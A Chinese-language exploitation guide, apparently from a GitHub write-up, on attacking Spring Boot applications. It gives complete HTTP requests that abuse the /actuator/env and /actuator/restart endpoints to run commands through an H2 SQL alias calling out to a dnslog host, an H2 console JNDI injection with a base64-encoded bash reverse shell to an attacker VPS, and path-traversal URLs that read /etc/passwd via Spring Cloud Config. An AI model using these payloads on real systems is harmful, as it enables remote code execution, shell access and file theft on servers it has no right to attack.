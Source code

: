 # Spring boot漏洞利用（2）

前面讲了Spring boot的相关漏洞的利用·，这篇继续讲一些Spring boot漏洞的利用

### Spring boot 2.x Actuator配置不当导致RCE

**影响版本**

spring-boot-starter-actuator 2.x with h2

**漏洞利用**

2.x与1.x的漏洞利用是不同的

（1）访问/actuator/env目录，如果存在，则可以试一下如下利用方式。

```
POST /actuator/env HTTP/1.1
Host: ip:60802
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.135 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 362

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}'; CALL EXEC('curl http://ekb365.dnslog.cn');"}
```

![image-20200828160930548](pictures/image-20200828160930548.png)



需要注意Content-Type: application/json

（2）执行重启命令来执行第一步发送的命令

```
POST /actuator/restart HTTP/1.1
Host: ip:60804
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.135 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 2

{}
```

![image-20200828161009288](pictures/image-20200828161009288.png)

dnslog平台成功收到了

![image-20200828202729748](pictures/image-20200828202729748.png)

### Spring Boot + H2数据库JNDI注入RCE



H2 database是一款Java内存数据库，多用于单元测试。H2 database自带一个Web管理页面，在Spirng开发中，如果我们设置如下选项，即可允许外部用户访问Web管理页面，且没有鉴权。

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

**漏洞利用**

（1）访问he-console，如果存在，就会出现如下所示界面。

<img src="pictures/image-20200828161459922.png" alt="image-20200828161459922" style="zoom:67%;" />

（2）配置JNDI监听，工具下载地址：[https://github.com/su18/JNDI ](https://github.com/su18/JNDI)

（3）修改监听工具的配置文件，这里的端口选择自己在vps上开放的端口

<img src="pictures/image-20200828161637341.png" alt="image-20200828161637341" style="zoom:67%;" />

（4）配置反弹shell的命令

命令配置使用了command=bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC92cHMvNDQ0NyAwPiYx==}|{base64,-d}|{bash,-i}。这里base64编码是bash -i >& /dev/tcp/vps/4447 0>&1

![image-20200828161736292](pictures/image-20200828161736292.png)

（5）配置好后启动：java -jar JNDI-1.0-all.jar

（6）通过http：// ip：port / h2-console访问h2db管理台，在驱动程序类中插入javax.naming.InitialContext，	在JDBC网址中填充：rmi://vps:4444/BypassByEL

<img src="pictures/image-20200828161849069.png" alt="image-20200828161849069" style="zoom:67%;" />

​	JNDI收到了请求

<img src="pictures/image-20200828161918075.png" alt="image-20200828161918075" style="zoom:67%;" /> 

​	成功接受到了反弹的shell。

<img src="pictures/image-20200828161937962.png" alt="image-20200828161937962" style="zoom:67%;" /> 

### Spring Cloud Config目录穿越

这里分享两个POC

- /foo/default/master/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc/passwd
- /..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%23foo/master



<img src="pictures/image-20200828162621094.png" alt="image-20200828162621094" style="zoom:67%;" />



<img src="pictures/image-20200828162740251.png" alt="image-20200828162740251" style="zoom:67%;" />



